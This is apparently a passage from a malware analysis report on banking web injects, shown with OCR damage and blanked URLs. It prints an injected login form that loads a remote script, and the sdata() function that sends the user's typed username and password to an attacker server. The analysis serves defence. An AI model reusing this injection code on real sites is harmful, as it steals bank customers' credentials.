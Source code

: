 ```
<form name="logonform" id="logonform"
align="center" autocomplete="off"
action="
method="post" onsubmit="sdata () ; return false;
<script type="text/javascript"
src="
php?make=ent&idt=ebnkusod0BA58A9F2E0466E80DF581CD
29D7A1444"></script>
<input type="hidden" name="authmethod"
value="userpassword" />
```
![](_page_12_Picture_0.jpeg)

As can be noticed, the manipulated page causes the function sdata () to be called every time the user logs in to the bank account. It is important to notice that the injected page seems identical to the aforementioned screenshot of the original page.

The browser also resolves the sdata () function script. Note that this script is not injected directly into the page, but is resolved from

 usod0BA58A9F2E0466E80DF581CD29D7A1444.

The downloaded script contains the sdata () function implementation:

```
function sdata()
{
     var lg =
document.getElementsByName("usr name")[0];
     var ps =
document.getElementsByName("usr password")[0];
     var rix = (new Date()).getTime();
connect("
.php?make=auth&rix="+rix+"&idt=ebnkusod0BA58A9F2E0466E80
DF581CD29D7A1444&lg="+lg.value+"&ps="+ps.value);
}
```
- 3. The user enters credentials and logs in:
The function sdata () is called. As can be concluded from the above code, this function grabs the user's credentials from the page and sends them to the attacker's server.

![](_page_13_Picture_0.jpeg)

#### Demonstration- Bank B

- 1. The user navigates to the bank's login page. URL: 
The page is downloaded from the bank's web server
